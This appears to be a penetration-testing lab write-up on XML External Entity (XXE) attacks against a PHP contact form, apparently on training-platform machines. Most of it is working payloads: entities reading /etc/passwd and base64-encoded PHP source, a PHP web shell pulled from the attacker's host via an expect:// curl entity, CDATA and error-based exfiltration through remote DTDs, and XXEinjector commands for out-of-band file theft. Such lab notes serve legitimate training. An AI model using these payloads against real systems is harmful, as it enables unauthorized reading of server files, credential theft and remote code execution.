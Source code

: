 ### Reading Sensitive files

Form submitted:

```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.182.100
Content-Length: 157
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.182.100
Referer: http://10.129.182.100/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>test</name>
<tel>012334567890</tel>
<email>a_lindon@employees.htb</email>
<message>test</message>
</root>
```

We can update the POST request to the following to read the `/etc/passwd` file:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<root>
<name>test</name>
<tel>012334567890</tel>
<email>&company;</email>
<message>test</message>
</root>
```

### Reading Source Code

Similarly, XXE can be used to read the source code of other files:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
<name>test</name>
<tel>012334567890</tel>
<email>&company;</email>
<message>test</message>
</root>
```

This gives the output in base64 which can easily be decoded:

![[Pasted image 20250130190718.png]]

### Remote Code Execution with XXE

RCE may also be possible:

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

And sent the following payload:

```bash
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'10.10.14.32/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work

### Exfiltration with CDATA

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.
#### CDATA

Local Host:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Payload - Update file location and IP address:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
 <!ENTITY % file SYSTEM "file:///etc/hosts">
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://10.10.14.32:8000/xxe.dtd">
  %xxe;
]>
<root>
<name>test</name>
<tel></tel>
<email>&joined;</email>
<message>
</message>
</root>
```

### Error Based XXE

Local Host:

```bash
cat xxe2.dtd 
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Send in request:

```bash
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.32:8000/xxe2.dtd">
  %remote;
  %error;
]>
```

### Automated Out-of-band Data Exfiltration

Grab the request from Burp and save as a file. Add:

```bash
<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

To the bottom of the request:

```bash
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.249.248
Content-Length: 173
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.249.248
Referer: http://10.129.249.248/blind/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Install:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Usage Example:

```bash
ruby XXEinjector.rb --host=[Your IP] --httpport=8000 --file=<burpfile> --path=/etc/passwd --oob=http --phpfilter
```

Usage:

```bash
sudo ruby XXEinjector.rb --host=10.10.14.32 --httpport --file=test.txt --path=/etc/passwd --oob=http --phpfilter
```

Look in the Logs directory to see output:

```bash
cat Logs/10.129.249.248/etc/passwd.log
```